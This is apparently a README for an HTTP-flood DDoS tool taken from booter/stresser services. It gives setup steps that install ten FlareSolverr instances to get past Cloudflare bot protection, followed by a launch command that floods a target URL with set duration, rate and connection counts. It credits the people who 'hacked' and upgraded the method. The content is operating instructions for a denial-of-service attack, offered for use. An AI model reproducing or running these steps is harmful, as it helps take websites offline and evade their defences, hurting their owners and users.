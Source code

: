 # http-browser
HTTP Browser method using FlareSolverr



sh install.sh

unzip solvers.zip

install the other depedencies as the script asks with 'npm i name'

cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install

cd ../; cd flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install

python start_solvers.py

run the method 

node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32


Method hacked from Booter.sx, released by Stresser.US - method updated and upgraded to HTTP/2 by forky and WeAreRainBowHAT

Hacked by T13R and forky
